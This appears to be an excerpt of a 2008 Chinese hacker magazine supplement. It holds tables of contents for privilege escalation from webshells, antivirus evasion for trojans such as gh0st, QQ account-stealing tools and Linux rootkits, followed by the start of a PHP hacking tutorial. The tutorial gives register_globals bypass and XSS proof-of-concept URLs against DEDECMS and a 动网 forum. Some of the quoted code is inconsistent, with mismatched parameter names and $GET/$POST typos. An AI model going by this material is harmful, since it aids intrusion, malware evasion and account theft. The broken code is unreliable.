# 非安全黑客手册2008第一增刊（下）

---

## 非安全·黑客手册  
2008 第一增刊（下卷）

非安全·黑客手册 出品

### 首次推出，无与伦比！抢地盘  
## 高手笔下的晋级之路，指引你快速通关……  
## 精心打造，不同类型！  
## 经典重现、实用强悍、多元异类、热门新题……  
### 重装你的黑客知识库，2008 不容错过的 NO.1 增刊

本次的第一增刊算是《非安全·黑客手册》2008 年的大手笔了！聚集了来自各个领域的多位好手，一起为大家奉献自己多年来的经验和技巧。为了合理安排大家的接受度，我们将所有专题分为上、下两卷，分批奉献给了大家。

本书为《非安全·黑客手册第一增刊》下卷，共奉献出七大专题，实用技巧居多，值得收藏。

## 一、漏洞新宠——PHP SCRIPT HACK 大全

PHP 的高性能使得其在网络中的应用越来越多。由于其是专门为 Web 开发而设计的，所以它提供了许多内置函数来执行有用的 Web 任务，而一些任务只需要几条代码就可以搞定。同时 PHP 还具有设计良好的面向对象特性和可移植性，可以在许多不同的操作系统中使用。它还支持多种数据库，并提供了各种数据库的内置连接……

## 二、Webshell 无处逃——提权 20 招

当前的国内网络安全形势由原来的 SQL 注入逐渐向更高的层次发展了，关于提权的问题也就应运而生。提权一直是网络安全的重要话题之一，随着获取 WebShell 技术的普及，得到一个 WebShell 变得很简单。本文只是帮助入门的读者朋友做个引阶，讲解详细易懂，共分二十个提权方法。

## 三、与杀软的周旋——免杀大应用

本章中的内容尽量抛开了传统的特征码定位方式，而从另外一些角度来缔造免杀。而且，其中的每篇文章中都涵盖了一些独到的免杀技巧，以及一些工具的综合使用。另外，还专门介绍了几种 DLL 文件的免杀方式，特别是对于加壳后的 DLL，难道大家不想看看吗？

## 四、小命令，大作用——入侵渗透命令实用操作

本章将给大家讲解在脚本入侵以及内网渗透之中用到的一些小命令，包括 Windows 下的一些常用命令；IIS、FTP 等命令及一些实用工具的命令介绍，并在最后讲下在渗透过程中的其他小细节，让你懂得如何在恰当的时候使用正确的命令。

## 五、有 Q 皆备——QQ 技巧与保护

QQ 在中国已经日益成为许多朋友生活中不可或缺的通信工具，本章将奉献出许多 QQ 的经典技巧，让大家不仅更快乐地使用 QQ，也能更安全地使用 QQ。

## 六、从最简单做起——黑客编程基础速成

编程是黑客学习道路上的一道坎，一个难关。但是，高深的技术是我们广大读者追求的目标，虽然编程很难，但是再难也是从基础学起的！本章将以一些基础的实例来引导读者对编程的感性认识，如果你确实无法领悟，还是做个 TOOLHACK 吧！

## 七、窗外的安全——Linux 系统攻防初探

“很好，很强大！”这样形容 Linux 一点都不为过，但为什么在小菜的电脑上很少见到 Linux 系统呢？到本章中来找找答案吧！

实际上，Linux/Unix 才是真正适合黑客的操作系统，因为它给你强大的功能和绝对的自由度。用 Linux 你要了解的不是那些工具了，它们只是辅助；你应该知道漏洞是怎样产生的，然后通过各种方法去测试它，开发自己的工具。而 Linux 能为你提供一个这样的环境，比如我可以轻松地在 Linux 下创建网络封包并发送，并且可以修改其中任意一层的协议内容，这些在 Windows 下能做到吗？很难很难。

下卷继续精彩，上卷你可错过？不留遗憾，一起收藏！

上卷精彩内容如下：

- 一、入门的选择——ASP 编程攻防浅析
- 二、大型站点最爱——JSP 脚本攻防
- 三、“跨”越新高地——最新 XSS 黑技大曝光
- 四、三言两语说不尽——非主流入侵
- 五、外柔？内刚？——内网渗透攻略
- 六、骑兵手册——挂马技术专谈
- 七、边破边解——Cracker 实例大全
- 八、就在你隔壁——无线破解初体验

最后，特别感谢各文作者给予《非安全》的信任和支持，我们将携手为广大 HACKING 爱好者带来更多实用知识，一起与技术进步，一起享受技术带给我们的快乐。在以后的岁月里，《非安全》会一如既往地关注技术，关注 HACK，关注安全，关注网络，关注一切……

## 漏洞新宠——PHP SCRIPT HACK 大全

作者：落叶纷飞 [J.L.S.T] @ 肇庆

- 一、PHP 语言概述..........................................12
- 二、快速搭建 PHP 测试环境..................................12
- 三、PHP HACK 手法总结......................................13
- 四、开始我们的 PHP HACK 之旅................................14
  - 1、Register Globals 带来的危害............................14
  - 2、XSS 跨站脚本漏洞........................................15
    - A、动态跨站...............................................15
    - B、静态跨站...............................................16
  - 3、上传漏洞................................................17
  - 4、注射漏洞................................................19
    - A、数字型注射漏洞.........................................19
    - B、字符型注射漏洞.........................................20
    - C、特殊型注射漏洞.........................................21
    - D、隐蔽型注射漏洞.........................................23
  - 5、远程/本地文件包含漏洞.................................24
    - A、远程文件包含漏洞......................................24
    - B、本地文件包含漏洞......................................25
  - 6、逻辑型漏洞..............................................25
  - 7、命令执行漏洞............................................27
  - 8、代码执行漏洞............................................30
  - 9、杂谈 PHP 漏洞...........................................34
- 五、总结.....................................................34

## WebShell 无处逃——提权 20 招

作者：梦幻剑客

- 一、上传 ASPX、PHP、JSP 脚本木马提权................37
- 二、利用 cacls.exe 命令提权............................37
- 三、Serv-U 有目录修改权限提权..........................38
- 四、Serv-U 无目录修改权限提权..........................38
- 五、Serv-U 本地溢出提权.................................39
- 六、Serv-U 反弹提权......................................40
- 七、利用 PcAnywhere 提升权限............................40
- 八、利用 MySQL 提权......................................41
- 九、利用 Radmin 提权.....................................42
- 十、利用 MSSQL 提权......................................43
  - 1、SA 提权方法............................................43
  - 2、DB_owner 提权.........................................44
- 十一、写入启动项提权......................................45
- 十二、利用 script 将 asp.dll 加入特权组提权............45
- 十三、添加超级用户的 ASP 代码............................46
- 十四、VNC 提权............................................47
- 十五、FlashFXP 提权......................................47
- 十六、破解 SAM 及 HASH 值提权............................48
- 十七、G6FTP 提权..........................................50
- 十八、替换服务提权........................................50
- 十九、NC 反弹提权.........................................51
- 二十、社会工程学提权......................................51

## 与杀软的周旋——免杀大应用

作者：x140cc

- 一、花指令入门篇——认识和编写简单的花指令以及花指令工具的使用........................................57
- 二、花指令进阶篇——打造属于自己的全免杀花指令........................................................61
- 三、SHE 与花指令在免杀中的综合应用.....................65
- 四、改壳初探——修改北斗压缩壳免杀......................68
- 五、改壳实战之 FSG 2.0 加壳程序中跳转指令变异免杀卡巴..............................................71
- 六、改壳实战——修改 PEncrypt v4.0 免杀五大杀软.........73
- 七、改壳实战之修改 petite 2.3 免杀启发式查杀的小红伞和 NOD32.............................................75
- 八、用 MYCCL 辅助工具突破定位瑞星内存的独特方式........78
- 九、让 VMProtect 复活！免杀过瑞星、金山、江民..........80
- 十、XOR 异或加密在免杀中的应用..........................84
- 十一、加减法加密算法加密 aspack 2.12 过小红伞和卡巴....87
- 十二、免杀实战之 gh0st 2.5 完美过卡巴 7.0 主动防御......89
- 十三、拿出调试新武器 IDebugger 驱动文件加花指令全免杀................................................96
- 十四、字符串转移之后在内存中的动态恢复..................99
- 十五、解决重定位，DLL 文件也来加密算法加密............103
- 十六、突破 360 安全卫士监控.............................106
- 十七、偷梁换柱！轻轻松松过掉卡巴斯基 7.0 主动防御......107
- 十八、CALL 间花再造 MaskPE2.0 免杀神话................110

## 小命令，大作用——入侵渗透命令实用操作

作者：冰的原点

- 一、Windows 下的利器.....................................113
  - 1、ping...................................................113
  - 2、ipconfig...............................................114
  - 3、nslookup...............................................115
  - 4、tasklist、taskkill（ntsd）............................116
  - 5、netstat、nbtstat......................................117
  - 6、net....................................................118
  - 7、telnet.................................................120
  - 8、at、copy...............................................122
  - 9、其他...................................................122
- 二、IIS、FTP 命令初探.....................................123
- 三、实用小工具............................................124
  - 1、nc 篇..................................................124
  - 2、lcx 篇.................................................125
  - 3、mt 篇..................................................126
  - 4、pwdump、fgdump.........................................127
- 四、不得不看的小细节......................................129
  - 1、关于 3389 的开启......................................129
  - 2、关于在内网的嗅探......................................129
  - 3、如何保住肉鸡..........................................129
  - 4、信息收集，不光是用工具................................132
  - 5、Shift 键探索..........................................132

## 有 Q 皆备——QQ 技巧与保护

作者：POP

## Linux 系统攻防初探目录

### 第一部分 安装我的 Linux
- 1.1 Wubi 安装 Ubuntu.......................................184
- 1.2 黑客的选择——BackTrack.................................186

### 第二部分 简单的基础知识和常用命令
- 2.1 Shell..................................................186
- 2.2 常用命令...............................................187
  - 2.2.1 文件相关............................................187
  - 2.2.2 文件浏览............................................189
  - 2.2.3 用户相关............................................190
  - 2.2.4 权限相关............................................191
  - 2.2.5 进程相关............................................191
    - ps......................................................191
    - top.....................................................191
    - kill....................................................192
- 2.3 vim....................................................192

### 第三部分 Linux 下的黑客工具和进攻方式
- 3.1 “非黑客”工具..........................................195
  - 1、whois.................................................195
  - 2、host..................................................195
  - 3、traceroute............................................195
  - 4、NetCat................................................195
- 3.2 端口扫描...............................................196
- 3.3 网络嗅探...............................................200
- 3.4 密码破解...............................................202
- 3.5 远程控制...............................................205
- 3.6 拒绝服务...............................................206
- 3.7 缓冲区溢出.............................................208

### 第四部分 Linux 后门艺术
- 4.1 一般后门...............................................211
- 4.2 高级后门...............................................211
- 4.3 rootkit................................................213

### 第五部分 Linux 安全方案
- 5.1 安全设置...............................................214
- 5.2 防火墙.................................................216
- 5.3 入侵检测...............................................218
- 5.4 病毒和 rootkit 检测....................................219

### 六、写在最后
- 六、写在最后...............................................220

## 漏洞新宠——PHP SCRIPT HACK 大全（附工具）

- 脚本漏洞自动入侵器 Hdsi 3.01
- PHP 注入工具 Casiv4
- 多种编码转换工具
- SQL 注入渗透测试工具 Pangolin
- NC/仿 NC 提交工具
- 漏洞利用工具 phpspy2008
- 连接器 SuperMysql 1.8
- PHP 漏洞扫描器
- PHP 远程包含 0day 发掘器
- MYSQL_FUNC，包含 furq.dll 和 kaka.dll
- MySQL 提权的全能 UDF

[友情提示] “虚拟机软件”用于在一台电脑的硬盘中虚拟出多台主机系统，大家可以用来搭建不同的主机系统平台进行网络实验，首次使用它的朋友可阅读简明教程；另外，光盘中的 ZIP/RAR 文件可使用 WinRAR 解压。

## MySQL5 提权 php

#### ASP+PHP 两用 Shell

## MySqlRootkit

## pc_webserver2007 服务器套件包：APACHE/PHP/ZEND/MYSQL

## Webshell 无处逃——提权 20 招

#### Radmin_Hash

#### 相关漏洞利用工具：su.asp、ok.aspx

#### SQL 查询分析器

#### PcAnywhere 密码破解

#### c99shell 完美源码版.php

#### 小工具集合：lcx、cmd、ftp、FPipe、nc

## MYSQL 提权正向连接文件 my_udf.dll

## JSP Webshell：job.jsp/JFolder.jsp/JSPWebshell.jsp

## 有 Q 皆备——QQ 技巧与保护

#### QQ 截图功能文件 CameraDll.dll

## 文件资源读取器 eXeScope_6.50

#### 文件资源编辑工具 PE Explorer

#### 16 进制编辑器 WinHex 14.2 SR-2

#### 用于欺骗的视频文件 mm.avi

#### 抓图软件 QQ2008-SnapShot

#### 位图 _963.bmp

## 虚拟摄像头（Softcam）v1.51

#### 金狐 QQ2008 大盗

## 从最简单做起——黑客编程基础速成

## 文章中所涉及的相关源码集合：fxDoor、zxDoor Process、open3389、WriteMap

## 窗外的安全——Linux 系统攻防初探

#### 口令破解

#### 后门工具

#### 学习资料

#### 安全相关

#### 攻击工具

## 与杀软的周旋——免杀大应用

## [动画教程]

## 改壳实战之让 VMProtect.V1.03 复活免杀过瑞星、金山、江民

#### 改壳实战之 FSG2.0 加壳程序中跳转指令变异免杀卡巴

#### 改壳实战之修改 PEncrypt 全免杀

## 改壳实战之修改 petite2.3 免杀启发式查杀的小红伞和 NOD32

#### 用 MYCCL 辅助工具突破定位瑞星内存特征码

#### 打造属于自己的全免杀花指令

#### 加减法加密算法加密 aspack2.12 过小红伞和卡巴

#### 拿出调试新武器 IDebugger，驱动文件加花指令免杀

#### DLL 文件字符串特征码在内存中的动态恢复

#### 解决 DLL 重定位，DLL 也来 XOR 加密

#### 突破 360 安全卫士

#### 偷梁换柱轻轻松松过掉卡巴斯基 7.0 主动防御

#### CALL 间花再造 MaskPE2.0 免杀神话

## [相关工具]

#### gh0st 木马

#### Immunity Debugger 调试工具

#### knlps 进程工具

#### PE 编辑工具 LordPE

#### 调试工具 OllyICE

#### 加密壳 PEncrypt v4.0

## 压缩壳 petite23

## 国外木马 poison ivy+2.32.2

## Resource_Binder，它可以对保存后的文件进行重构

## xPELister_0.23 汉化版，一般用来修改区段名称

#### 大水牛多功能过主动捆绑器 V2.5

#### MYCCL/MULTI 定位

#### 木马彩衣 78

#### 超级加花器 v1.8

#### 配置及 DLL 和 sys 导入导出 V0.33

#### 黑洞服务替换 V0.3

### 定价：26 元

## 《非安全·黑客手册 2008 第一增刊》（上卷）

已全国上市  
热卖中...

## 《非安全·黑客手册 2008 第一增刊》（上卷）精彩内容回顾

## 入门的选择——Asp 编程攻防浅析

作者：冰域剑客

- 一、Asp 简介……07
  - 1、文件标记……09
  - 2、排版用标记……10
  - 3、表单标记……10
- 三、Vbscript 介绍……11
  - 1、判断结构……13
  - 2、循环结构……15
- 四、Asp 内置对象……16
  - 1、request 对象……17
  - 2、response 对象……18
- 五、Asp 程序攻防……19
  - 1、暴库漏洞的原理分析及利用……21
  - 2、ACCESS 注入……24
  - 3、Mssql 注入……26
  - 4、SQL 防注入……26
  - 5、webshell 的获取……26
  - 6、Session 的欺骗和注入……29
  - 7、cookies 注入和欺骗……30
  - 8、任意文件下载漏洞……32
  - 9、结语……33

## 大型站点最爱——JSP 脚本攻防

作者：落叶纷飞[J.L.S.T] @ 肇庆

- 一、JSP 语言概述……35
- 二、JSP 环境的搭建……36
- 三、JSP 语言入门……45
- 四、JSP 漏洞综述……51
  - 1、上传漏洞……51
  - 2、跨站漏洞……55
  - 3、注入漏洞……57
  - 4、逻辑型漏洞……58
  - 5、简单分析“彩森视频网络电台”……61
- 五、入侵 JSP 网站的方法总结……61
  - 1、源代码泄漏漏洞……61
  - 2、目录遍历漏洞……62
  - 3、确定服务器架设软件……62
  - 4、拒绝服务漏洞……63
  - 5、JSP 黄金搭档 Oracle 的安全隐患……63
  - 6、Tomcat 的安全隐患……66
  - 7、谈 JSP 网站的服务器安全……70
- 六、后记……70
- 七、参考文献……70

## “跨”越新高地——最新 XSS 黑技大曝光

作者：漫无目的

- 一、认识 XSS……73
- 二、XSS 的触发条件……75
- 三、如何突破限制……76
- 四、举例……78
  - 1、Referer XSS……78
  - 2、框架跳转攻击……82
  - 3、JS 流注入攻击……83
- 五、玩转 BEEF……83

## 外柔？内刚？——内网渗透攻略

作者：樱花浪子

- 一、内网基础……122
- 二、获取密码……126
- 三、开始渗透……130

## 骑兵手册——挂马技术专谈

作者：gxm/桂晓敏

- 一、最简单的挂马方式……141
  - 1、iframe 挂马法……141
  - 2、js 文件挂马法……141
  - 3、CSS 中挂马……142
- 二、挂马技术升级——进阶篇……144
  - 1、window.status=''; 方式……144
  - 2、JS 重定向挂马……145
  - 3、手动挂马文件隐藏小技巧……147
- 三、服务器上挂马技术……148
  - 1、MetaBase.xml 文件修改挂马……148
  - 2、ISAPI 加载挂马……149
- 四、GXM 挂马时的辅助工具与技巧……150
  - 1、ASP 封包挂马……150
  - 2、修改最后文件修改日期工具……153
  - 3、监控特定文件自动插马的无赖工具……153
- 五、最后总结……155

## 三言两语说不尽——非主流入侵

## 边破边解——CRACKER 实例大全

作者：December

- 一、基本理论知识……………………………………………………157
- 1.1 软件保护方式……………………………………………………157
  - 1.1.1 硬件保护方式…………………………………………………157
  - 1.1.2 软件保护方式…………………………………………………157
- 1.2 软件破解方式……………………………………………………158
- 1.3 软件破解的经典比较句式…………………………………………158
- 1.4 简单的汇编指令…………………………………………………159
- 1.5 破解必须了解的概念……………………………………………159
- 二、爆破基础…………………………………………………………160
- 2.1 实例一……………………………………………………………161
- 四、加壳与脱壳………………………………………………………182

## ■ 漏洞新宠——PHP SCRIPT HACK 大全


## 非安全·黑客手册 2008 第一增刊

目前，国内对 ASP 语言编写的程序的漏洞分析可谓已经达到了顶峰，但对于用其他语言所编写的程序的漏洞分析似乎还比较少见。本章将为大家介绍 PHP 语言环境下的 HACK 手法，希望各位读者朋友能在本文中有所收获。

PS：如果你没有任何基础，要看懂本文可能要花一点时间。但如果你有一点语言基础或懂得简单的漏洞挖掘，看懂本文可以说是轻而易举。

### 一、PHP 语言概述

PHP 是“PHP: Hypertext Preprocessor”的首字母缩写，一般称为“超级文本预处理语言”。可能大家有些奇怪，因为缩写中的第一个字母 P 也来自缩写（PHP），这种方法叫做递归缩写。

PHP 是一种 HTML 内嵌式语言，它与微软的 ASP 颇有几分相似，都是一种在服务器端执行的嵌入 HTML 文档的脚本语言，语言的风格类似于 C 语言，现在被很多的网站编程人员广泛地运用。

PHP 独特的语法混合了 C、Java、Perl 以及 PHP 自创的新语法，它可以比 CGI 或者 Perl 更快速地执行动态网页。PHP 执行引擎会将用户经常访问的 PHP 程序驻留在内存中，其他用户再次访问这个程序时就不需要重新编译程序了，只要直接执行内存中的代码就可以了，这也是 PHP 高效率的体现之一。

PHP 的性能非常高，使用一台单独的廉价服务器就可以满足每天几百万的点击。它还支持多种数据库，并提供了各种数据库的内置连接，不过用得最多的还是 MYSQL 数据库，PHP+MYSQL 堪称是最好的组合，而且 MYSQL 也是开源的。

由于 PHP 是专门为 Web 开发而设计的，所以它提供了许多内置函数来执行有用的 Web 任务。如可以生成一个 GIF 图像、连接到 Web 服务和其他网络服务、解析 XML、发送电子邮件以及生成 PDF 文档等，这些任务只需要几条代码就可以搞定。同时 PHP 还具有设计良好的面向对象特性和可移植性，可以在许多不同的操作系统中使用。

了解完 PHP 语言的一些相关介绍后，我们就来搭建一个属于自己的 PHP 调试环境吧！

### 二、快速搭建 PHP 测试环境

本章内容中的所有测试均在 APACHE+PHP+ZEND+MYSQL 的环境下进行，下面我们就在本地主机上搭建这个环境！由于手工搭建 PHP 调试环境是比较繁琐的，所以这里我教大家一个非常简单的方法！只需要用一个软件就能帮助我们搭建好这个环境。

## 漏洞新宠——PHP SCRIPT HACK 大全

我们到 http://www.phpcms.cn 下载一款名叫“PCWEBSERVER2007”的软件，下载后运行程序进行安装，如图 1 所示。



只要一路点击“下一步”一般就能成功安装了。安装好后我们在浏览器地址栏中输入“http://127.0.0.1”，如果显示如图 2 所示的页面，就代表环境搭建成功了。



当我们要调试 PHP 程序的时候，只要把程序放在安装目录下的“PC_webserver\phproot”文件夹里就 OK 了。注意：默认配置的 MYSQL 账号和密码都为 admin。

在我们搭建好 PHP 程序所运行的环境后，就可以对需要进行分析的程序进行调试了。在这之前，我们先来了解下 PHP HACK 的常见手法。

## 三、PHP HACK 手法总结

PHP 的攻击手法多种多样，一般分为以下 12 种攻击方式：上传、注入、跨站、爆绝对路径、文件包含（本地/远程）、代码执行、命令执行、目录浏览、代码泄露、请求伪造、会话劫持、响应拆分。

其中上传、跨站和注入漏洞是我们最为常见的，就不专门给大家介绍了，说说其它的攻击方式吧。

1、爆绝对路径漏洞：这一般是由于 PHP 程序的代码编写存在错误，从而导致网站的绝对路径被泄露。

2、文件包含漏洞：当服务器通过 PHP 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严，从而可以包含一个恶意文件，攻击者只要构造这个恶意文件就可以达到邪恶的目的。几乎所有的 CGI 程序都有这样的 BUG，只是具体的表现方式不一样罢了。

3、代码执行漏洞：这种漏洞在国内还比较少见，一般发生在 PHP 语言的正则函数中，其主要目的是利用 PHP 程序中对某个函数的变量过滤不严，从而能执行任意 PHP 代码。

4、命令执行漏洞：PHP 系统中使用的执行外部命令的函数没有对所执行的变量进行充分过滤，使得攻击者能以 Web 进程权限绕过限制来执行系统命令。

5、目录浏览和代码泄露漏洞：这两个漏洞的性质几乎一样，都是因为 PHP 程序中的文件操作函数在引入变量时没有对变量进行充分过滤，从而使得攻击者能通过请求畸形数据来达到浏览目录或查看代码的目的。

6、请求伪造漏洞：这个漏洞一般需要在 PHP 环境设置文件 php.ini 中的“register_globals”选项为 on 的时候才能得以利用，其主要目的是通过伪造数据来达到绕过某些限制。

7、会话劫持漏洞：PHP 的会话劫持通常来说是更加普遍的会话攻击，并被归结为所有尝试获得其他用户会话权限的攻击手段。

8、响应拆分漏洞：响应拆分攻击的本质是攻击者可以发送一条或几条 HTTP 指令迫使漏洞服务器产生一个攻击者构想好的输出，它可以让服务器误把几条 HTTP 请求当成是一次完整的 HTTP 请求来解释。

第一条请求也许攻击者控制着一部分，但这并不是危险的。危险的是，攻击者完全控制着第二条 HTTP 请求，即从 HTTP 状态行一直到 HTTP 请求的尾部。如果这样可行，攻击者就会发送多个请求指令到目标系统：第一条指令使得服务器完全接受两个 HTTP 响应，第二条指令通常是在服务器上请求一些非法资源。这时服务器将会自动匹配到第二条指令，输出攻击者想要请求的资源，从而达到攻击者的目的。

由于 PHP 攻击的方式有很多，本章中我只为大家介绍一些比较通俗易懂和常见的 PHP HACK 手法！

## 四、开始我们的 PHP HACK 之旅

没有 PHP 基础的读者朋友可以到网上寻找一下入门的知识，也可以参考一下曾云好大哥的《精通脚本黑客》（非安全·黑客手册出品，电子书已经收录在《黑客手册 2008 年 1、2 季合订本》中）一书中与 PHP 相关的章节。

#### 1、Register Globals 带来的危害

### 小知识

```php
<?php
if (!isset($username))
{
 echo "未登录！";
}
else
{
 echo "登录成功！你的账号是：" . $username;
}
?>
```

保存好文件后我们通过浏览器访问这个文件，页面显示如图 3 所示。



由于 register_globals 选项为 on，所以我们可以自行指定变量的值。提交 URL：“http://127.0.0.1/hack1.php?username=nohack”，访问结果如图 4 所示，我们已经成功地绕过了限制。



#### 2、XSS 跨站脚本漏洞

不管是什么语言环境，都存在着跨站脚本漏洞，其原理都是一样的，它的危害就不用我多加说明了。XSS 跨站漏洞一般分为动态跨站和静态跨站两种，动态跨站即跨站语句仅在客户端执行，不写入数据库；静态跨站就是跨站语句已写入数据库，当数据被程序输出的时候执行跨站语句。

##### A、动态跨站

首先我们来模拟一下动态跨站的产生，请把以下代码保存为 hack2.php 文件并存放于网站根目录下。

```php
<?php
$sa=$_GET['a'];
if (!isset($sa))
{
 Echo "你提交的数据为: 空";
}
Else
{
 Echo "你提交的数据为: ".$sa;
}
?>
```

我们用浏览器访问这个文件，会看到如图 5 所示的页面。



现在我们提交 URL：“http://127.0.0.1/hack2.php?a=<script>alert(/nohack/)</script>”，可以看到跨站语句已经成功执行了，如图 6 所示。


接着我们来实际分析一下 DEDECMS 的跨站漏洞，漏洞存在于 include/jump.php 文件里，以下是漏洞代码：

```php
<?php
if(!empty($_GET['gurl'])){
    echo "<script>location=\"{$_GET['gurl']}\";</script>";
}
```

从代码中可以看出变量 gurl 并没有做任何过滤就执行了跳转代码。我们提交“http://127.0.0.1/dc/include/jump.php?url=http://www.nohack.cn”，可以看到网址跳转到了“黑客手册”的主站 www.nohack.cn。我们再提交 URL：“http://127.0.0.1/dc/include/jump.php?url=%23</script><script>alert(/00day.cn/)</script>/*”，可以看到跨站代码被成功执行了。

##### B、静态跨站

现在各位读者朋友应该对动态跨站有了一定认识了吧？下面介绍一下静态跨站。这里我用动网 PHP 版的跨站漏洞来做演示，漏洞存在于 indivgroup_new.php 文件，以下是漏洞代码：

```php
……省略……
if($GET['action'] == "appgroup"){
    head(1,0,0,$title_num,$mygrouplink);
    save_new();
    footer();
……省略……
function save_new(){
    global $db, $lang, $dv, $restriction, $page, $userid, $membername, $fsetting;
    $GroupName= trim($POST['GroupName']);
    $GroupInfo=$POST['GroupInfo'];
    $Locked=intval($POST['Locked']);
    $ViewFlag=intval($POST['ViewFlag']);
……省略……
```

## 漏洞新宠——PHP SCRIPT HACK 大全

```php
$GroupName = $db->escape_string($GroupName);
$GroupInfo = $db->escape_string($GroupInfo);
$Locked = $db->escape_string($Locked);
$ViewFlag = $db->escape_string($ViewFlag);
……省略……
$db->query("insert into {$dv}group_name(groupname, groupinfo, appuserid, appusername, usernum, stats, limituser, appdate, passdate, locked, viewflag, groupface) values (".$GroupName."".$GroupInfo."".$Suserid."".$membename."".$stats."".$ssetting['indivgroup_limit'].",now(),now()."".$Locked."".$ViewFlag."".$faceurl.")");
……省略……
```

从以上代码可以看出，GroupName 和 GroupInfo 变量在经过了 escape_string 函数的过滤后就插入到数据库中了，但 escape_string 这个函数仅仅是作转义的作用，对我们的跨站攻击影响不大。下面来测试一下，这里我用 GroupName 变量来给大家演示这个静态跨站漏洞。

先注册好一个用户，然后点击“个性圈子”功能里的“申请”按钮，在“圈子名称”中输入跨站代码“`<script>alert(/nohack/)</script>`”，“圈子说明”随便填。输入完后我们点击“提交”按钮，如图7所示。



这时我们的圈子已经申请好了，现在打开“个性圈子”的首页，弹出了提示框，如图8所示，跨站代码成功被执行了！

